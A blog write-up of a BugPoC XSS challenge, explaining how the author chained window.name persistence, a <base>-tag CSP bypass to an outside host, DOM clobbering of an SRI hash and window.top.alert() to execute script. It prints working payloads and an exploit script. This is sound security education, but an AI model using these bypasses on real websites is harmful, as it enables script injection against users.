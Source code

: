 ```yaml
---
layout: post
title:  "BugPoC's XSS Challenge Writeup"
date:   2020-11-09 11:09:00 +0545
author: machinexa
image: /writeups/assets/images/xsschallenge.jpeg
category: Writeups
---
```


## Description
From the time of the announcement, I was excited about the new challenge from BugPoC. The challenge was to pop alert box with origin as text, bypassing CSP, and sandboxed iframe. Also, the alert must work in the latest version of Chrome only. I started solving immediately after the challenge was released. The challenge URL is:  [wacky.buggywebsite.com](https://wacky.buggywebsite.com/)

### Finding Reflection
So, my first task was to find reflection or DOM XSS sink. Visiting the site, the first thing I noticed was the webpage was only available for Chrome, so I opened it in Chromium. Here's what it looked like: 

![Homepage](/writeups/assets/images/xsschallenge_homepage.png)

I tried writing some text and it was successfully reflected. I immediately tried some tags but nope it didn't work. The regex was replacing `&*<>%` characters with a blank string. The thing to note was that it was reflected as `<iframe src="frame.html?param=Hello, World!" name="iframe">`  

I thought about injecting event handler and attributes like srcdoc but I don't think any will work because popping alert won't be easy, will it?
Besides, I found about frame.html from the reflection so I started to analyze its source code. There were lots of scripts and the one that was important was:
```js
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}

// verify we are in an iframe
if (window.name == 'iframe') {
	// securely load the frame analytics code
	if (fileIntegrity.value) {
		// create a sandboxed iframe
		analyticsFrame = document.createElement('iframe');
		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
		analyticsFrame.setAttribute('class', 'invisible');
		document.body.appendChild(analyticsFrame);

		// securely add the analytics code into iframe
		script = document.createElement('script');
		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
		script.setAttribute('crossorigin', 'anonymous');
		analyticsFrame.contentDocument.body.appendChild(script);
	}
} else {
	...
}
```
<br>
The first thing I tried was to change the window.name to "iframe" from dev tools, then refresh the page. You might think it's self XSS as user interaction is required but it is not:

![window.name](/writeups/assets/images/xsschallenge_windowname.png)

It is a special global variable because it is persistent across cross-domain. Thus, an attacker can change the variable, and it will be available even after refreshing or visiting a new page. After checking its source, we got 2 reflections and 1 partial reflection. The important was unsanitized input reflected in `<title>` while the rest were either useless or sanitized.

### Bypassing CSP and SRI
After getting unsanitized reflection, I tried to escape from the title then pop alert. I used this payload `</title><script>alert(1)</script>` but unfortunately, the Chrome's great CSP blocked it. Using CSP evaluator from Google, I found out this CSP was faulty. The following message caught my attention:
```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker-controlled domain. Can you set it to 'none' or 'self'?
```
<br>
Injecting the `<base>` tag will cause the script to be fetched from an attacker-controlled domain, thus executing arbitrary javascript. If you remember the code above, there is actually a script tag that fetches `frame-analytics.js`. Everything was ready for my plan and I was hoping for an alert but nope. After injection, the only thing I got was another error which got me frustrated.  

![Integrity error](/writeups/assets/images/xsschallenge_sri.png)

It was an integrity error which is related to SRI (Sub Resource Integrity), which protects against compromised script sources. In nutshell, it's a hash of the entire javascript file. There was no way I could generate the same hash, and a collision was impossible as the browser only supports collision resistant hashes. However, if I could change `window.fileIntegrity.value`, maybe I could set the value to the hash of my file.  

The id and value attribute of `<input>` directly affects javascript variables. Its a well known method of DOM Clobbering commonly used in CTFs. So, I used the following script: 
```html
<script>
window.name = "iframe";
payload = encodeURI('</title><base href="https://wzqkyz5l1054.redir.bugpoc.ninja/"><input id="fileIntegrity" value="3ZRbpxB3ZH9LPg3CX6ZGzidaPOFZOSpeK06lI1eZOLE=">');
window.location = "https://wacky.buggywebsite.com/frame.html?param=" + payload; //
</script>
```
And guess what happened? I got another error :rage:

### Magical alert box
Since, allow-modals wasn't set I tried experimenting with different frames and window objects. By default, Chrome blocks call to alert in the sandboxed environment ([Blocked modal dialogs](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)). Searching for a bypass, I didn't get anything useful, however, it was very easy to bypass, I just needed to alert on the upper frame. For that I used, `window.top.alert()`.  

Finally, the moment I was waited for after trying for so long came. I got the **magical alert box**, it was truly amazing. 

![Magical alert box](/writeups/assets/images/xsschallenge_alert.png)


## Takeaway 

* When going for XSS, search for as much reflection and sink as you can.
* Make sure to always review CSP policies. 
* Never stop learning, you find something new each day. 

The challenge was awesome, and I loved it. I also learned a lot of new things. Also, thanks to:
* BugPoC and Amazon for hosting and sponsoring the challenge.
* LiveOverflow for an awesome window.name trick
* Portswigger for awesome DOM Clobbering article

By the way, if you haven't watched [Liveoverflow's video](https://www.youtube.com/watch?v=L1RvK1443Yw&t=307s), go watch it now.
